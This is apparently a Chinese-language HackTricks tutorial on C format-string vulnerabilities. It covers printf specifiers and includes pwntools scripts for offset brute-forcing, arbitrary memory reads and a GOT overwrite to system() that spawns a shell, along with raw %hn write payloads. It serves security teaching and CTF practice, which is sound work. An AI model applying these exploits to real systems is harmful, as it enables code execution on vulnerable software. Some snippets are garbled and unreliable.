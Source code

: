 # Format Strings

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

* 您在**网络安全公司**工作吗？ 您想看到您的**公司在HackTricks中做广告**吗？ 或者您想访问**PEASS的最新版本或下载PDF格式的HackTricks**吗？ 请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 发现我们的独家[NFT收藏品**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* **加入** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在**Twitter**上**关注**我 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **通过向** [**hacktricks仓库**](https://github.com/carlospolop/hacktricks) **和** [**hacktricks-cloud仓库**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享您的黑客技巧**。

</details>

## 基本信息

在C语言中，**`printf`是一个用于打印**字符串的函数。该函数期望的**第一个参数**是**带有格式化符号的原始文本**。接下来期望的参数是要从原始文本中**替换**格式化符号的**值**。

其他存在漏洞的函数包括\*\*`sprintf()`**和**`fprintf()`\*\*。

当将**攻击者文本用作该函数的第一个参数**时，漏洞就会出现。攻击者将能够通过**滥用printf格式字符串的功能**来构建一个**特殊输入**，以读取和**写入任何地址的任何数据（可读/可写）**。从而能够**执行任意代码**。

#### 格式化符号:

```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```

**示例:**

* 漏洞示例:

```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```

* 正常使用：

```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```

* 缺少参数时:

```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```

* fprintf易受攻击:

```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input cna include formatters!
fclose(output_file);
return 0;
}
```

### **访问指针**

格式`%<n>$x`，其中`n`是一个数字，允许指示printf选择第n个参数（来自堆栈）。因此，如果您想使用printf读取堆栈中的第4个参数，可以执行以下操作：

```c
printf("%x %x %x %x")
```

并且您将从第一个到第四个参数读取。

或者您可以执行：

```c
printf("$4%x")
```

并直接读取第四个。

注意，攻击者控制`pr`**`intf`参数，这基本上意味着**他的输入将在调用`printf`时位于堆栈中，这意味着他可以在堆栈中写入特定的内存地址。

{% hint style="danger" %}
控制此输入的攻击者将能够**在堆栈中添加任意地址并使`printf`访问它们**。在下一节中将解释如何利用这种行为。
{% endhint %}

## **任意读取**

可以使用格式化程序\*\*`%n$s`**使**`printf`**获取位于**n位置**的**地址\*\*，并在其后打印它，就好像它是一个字符串（打印直到找到0x00为止）。因此，如果二进制文件的基地址为\*\*`0x8048000`\*\*，并且我们知道用户输入从堆栈的第4个位置开始，就可以打印二进制文件的开头：

```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```

{% hint style="danger" %}
请注意，您不能在输入开头放置地址0x8048000，因为该地址的末尾将被0x00截断。
{% endhint %}

### 查找偏移量

要找到输入的偏移量，您可以发送4或8个字节（`0x41414141`），然后跟随\*\*`%1$x`**并**增加\*\*该值，直到检索到`A's`。

<details>

<summary>Brute Force printf offset</summary>

\`\`\`python # Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import \*

## Iterate over a range of integers

for i in range(10):

## Construct a payload that includes the current integer as offset

payload = f"AAAA%{i}$x".encode()

## Start a new process of the "chall" binary

p = process("./chall")

## Send the payload to the process

p.sendline(payload)

## Read and store the output of the process

output = p.clean()

## Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output

if b"41414141" in output:

## If the string is found, log the success message and break out of the loop

log.success(f"User input is at offset : {i}") break

## Close the process

p.close()

````
</details>

### 有多有用

任意读取可以用于：

- **从内存中转储**二进制文件
- **访问存储敏感信息的内存特定部分**（如canaries、加密密钥或自定义密码，就像在这个[CTF挑战](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value)中）

## **任意写入**

格式化程序 **`$<num>%n`** 在堆栈中的 \<num> 参数中**写入**所写字节的**数量**到指定地址。如果攻击者可以使用printf写入尽可能多的字符，他将能够使 **`$<num>%n`** 在任意地址写入任意数字。

幸运的是，要写入数字9999，并不需要在输入中添加9999个"A"，为了做到这一点，可以使用格式化程序 **`%.<num-write>%<num>$n`** 将数字 **`<num-write>`** 写入由 `num` 位置指向的地址。
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
````

然而，请注意，通常为了写入诸如`0x08049724`这样的地址（一次写入一个巨大的数字），**会使用`$hn`而不是`$n`。这样可以仅写入2字节**。因此，此操作需要执行两次，一次用于地址的最高2字节，另一次用于最低的字节。

因此，此漏洞允许**在任何地址中写入任何内容（任意写入）。**

在此示例中，目标是**覆盖**稍后将调用的**GOT**表中函数的**地址**。尽管这可能会滥用其他任意写入执行技术：

我们将**覆盖**一个**从**用户**接收参数**并将其指向\*\*`system`**函数的**函数\*\*。\
如前所述，通常需要两个步骤来写入地址：首先写入地址的2字节，然后写入另外2字节。为此，使用\*\*`$hn`\*\*。

* **HOB** 用于地址的2个高字节
* **LOB** 用于地址的2个低字节

然后，由于格式字符串的工作方式，您需要**首先写入\[HOB，LOB]中较小的那个**，然后再写入另一个。

如果 HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

如果 HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

#### Pwntools模板

您可以在以下位置找到一个**模板**，用于准备利用这种类型漏洞的利用程序：

或者可以参考这个基本示例[**这里**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```

### 格式字符串到缓冲区溢出

可以利用格式字符串漏洞的写入操作来**写入栈上的地址**，并利用**缓冲区溢出**类型的漏洞。

### 其他示例和参考资料

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32位，无relro，无canary，nx，无pie，基本使用格式字符串从栈中泄漏标志（无需更改执行流程）
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32位，relro，无canary，nx，无pie，格式字符串覆盖地址`fflush`为win函数（ret2win）
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32位，relro，无canary，nx，无pie，格式字符串写入`.fini_array`中main内的地址（使流程再次循环1次），并将地址写入指向`strlen`的GOT表中的`system`。当流程返回到main时，`strlen`将以用户输入执行，并指向`system`，将执行传递的命令。

</details>
